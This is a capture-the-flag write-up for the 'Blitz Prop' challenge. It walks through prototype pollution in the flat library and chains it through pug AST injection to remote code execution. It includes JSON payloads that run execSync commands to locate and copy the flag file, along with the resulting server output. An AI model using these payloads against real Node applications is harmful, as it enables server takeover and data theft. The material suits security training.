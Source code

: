 # Blitz Prop

## First Look

The web page for Blitz Prop is a beautiful, futuristic looking feedback form. As the user, we are provided with a list of songs from a famous alien band called Blitz Prop and asked to choose our favorite.

![BlitzProp](images/BlitzProp.png)

There are some hints here in the songs names for those with the right insight, but we'll ignore those. Instead, the source code is available, so let's treat this like something of a code review:

```js
const path = require("path");
const express = require("express");
const pug = require("pug");
const { unflatten } = require("flat");
const router = express.Router();

router.get("/", (req, res) => {
  return res.sendFile(path.resolve("views/index.html"));
});

router.post("/api/submit", (req, res) => {
  const { song } = unflatten(req.body);

  if (
    song.name.includes("Not Polluting with the boys") ||
    song.name.includes("ASTa la vista baby") ||
    song.name.includes("The Galactic Rhymes") ||
    song.name.includes("The Goose went wild")
  ) {
    return res.json({
      response: pug.compile(
        "span Hello #{user}, thank you for letting us know!"
      )({ user: "guest" }),
    });
  } else {
    return res.json({
      response: "Please provide us with the name of an existing song.",
    });
  }
});
```

A cursory look shows that our input is 'unflattened' using the 'flat' library then checked for one of the song names as a substring. If a song is found, pug is used to process a template and return some text to display on the webpage. A quick look at the form payload reveals flattened JSON that we can fiddle with using Burp, developer tools, curl, or whatever your favorite tool is for sending HTML requests.

![BlitzProp-Request](images/bp-request.png)

## Identifying the vulnerability

The application is very simple. Node.js and Express are commonly used, robust tools for serving javascript based web applications. However, both `pug` and `flat` are interesting.

[Pug.js](https://pugjs.org/api/getting-started.html) is a templating tool. In this app, it is used for one thing: [String Interpolation](https://en.wikipedia.org/wiki/String_interpolation#JavaScript). Since string interpolation is built-in to javascript, we have reason to be suspicious here. However, the string being subsituted is hardcoded, so this could be a red-herring, so let's set it aside for now and look at flat.

[Flat](https://github.com/hughsk/flat) is a tool for flattening and unflattening JSON objects. In our case, it will transform the JSON payload from our above image to:

```json
{
  "song": {
    "name": "Not Polluting with the boys"
  }
}
```

And that's all that we have available to exploit. Unflatten is the only thing that processes our user input. Since our input is being unflattened and loaded as a javascript object into `song` variable, what if we could write or overwrite other items in Node's object space?

### Prototype Pollution

[Prototype Pollution](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c) is a potent vulnerability. See the excellent medium article by Dani Akash that I linked to learn about it. Play around with it in your browser console or Node to grasp it.

Vulnerabilities to Prototype Pollution are subtle, but can result in many issues from bypassing [authorization](https://auth0.com/intro-to-iam/what-is-authorization/) to [Denial of Service (DoS)](https://www.cloudflare.com/learning/ddos/glossary/denial-of-service/) to [Remote Code Execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

### Testing our Idea

We can run a quick test to see if unflatten is vulnerable to prototype pollution using node. Let's import the `flat` library, run a payload through the `unflatten` function and see if Node's object space is polluted:

```js
Welcome to Node.js v12.13.0.
Type ".help" for more information.
> const { unflatten } = require("flat")
undefined
> const payload = {'song.name': 'Not Polluting with the boys', 'Object.__proto__.Hello': 'World'}
undefined
> unflatten(payload)
{ song: { name: 'Not Polluting with the boys' }, Object: {} }
> payload.Hello
'World'
```

Bingo! We were able to pollute the Object space so that all objects have a property called `Hello` with value `World`.

## Find the Weakness

How do we exploit this? There are no if brances to bypass in the code. The default Object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own function.

**Note:** This is because functions definitions are not valid JSON and so will fail. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "RIP ⚰"' }` but it will break everything as a critical _function_ has now been redefined as a _string_.

We could achieve RCE if we could find an `exec()` or `eval()` statement _anywhere in our application_. Maybe Pug?..

A little bit of googling with the terms `pug prototype pollution` hands us another excellent article called [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/), this one by Beomjin Lee. In this article, we find essentially an identical setup using `pug` and `flat`.

### Exploit

The linked blog is kind enough to provide a payload and goes into some detail on how it works. The underlying principle is Prototype Pollution, as discussed, but its worth reviewing the Pug source code to understand why it happens. However, that is outside the scope of this write-up, so we will proceed with our exploit.

If you have a system with a public IP that you can use to get a reverse shell, you're golden, but I will offer an alternative. The base app makes all items in the path `/static` publicly available:

```js
const express = require("express");
const app = express();
const routes = require("./routes");
const path = require("path");

app.use(express.json());
app.set("views", "./views");
app.use("/static", express.static(path.resolve("static")));

app.use(routes);

app.all("*", (req, res) => {
  return res.status(404).send("404 page not found");
});

app.listen(1337, () => console.log("Listening on port 1337"));
```

So, let's just move our flag file there and view in our browser 😁
Since we don't know the flag file name, we'll see two payloads. I will use firefox dev tools to submit the payload because I'm lazy 😎

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`find / -type f -name '*flag*' > static/possible_flags.txt`)"
  }
}
```

We are presented with a server error, but it just shows our code executed!

```log
Error: Command failed: find / -type f -name '*flag*' > static/possible_flags.txt
find: /root: Permission denied
find: /proc/tty/driver: Permission denied
find: /proc/1/task/1/fd: Permission denied
find: /proc/1/task/1/fdinfo: Permission denied
find: /proc/1/task/1/ns: Permission denied
find: /proc/1/fd: Permission denied
find: /proc/1/map_files: Permission denied
find: /proc/1/fdinfo: Permission denied
find: /proc/1/ns: Permission denied
find: /proc/26/task/26/fd: Permission denied
find: /proc/26/task/26/fdinfo: Permission denied
find: /proc/26/task/26/ns: Permission denied
find: /proc/26/fd: Permission denied
find: /proc/26/map_files: Permission denied
find: /proc/26/fdinfo: Permission denied
find: /proc/26/ns: Permission denied
 on line 1
    at checkExecSyncError (child_process.js:621:11)
    at Object.execSync (child_process.js:657:15)
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:13:63)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:17:7)
    at /app/routes/index.js:16:81
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
```

Let's visit /static/possible_flags.txt:

![BlitzProp_Find_Error](images/bp-find-error.png)

The flag name is protected using [Security through Obscurity](https://en.wikipedia.org/wiki/Security_through_obscurity), but not very well. Let's go ahead and snag it:

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`cp /app/flagF4jzU static/flag.txt`)"
  }
}
```

Submit the same way and check it out in the browser:

![BlitzProp_Flag](images/bp-flag.png)

Success!
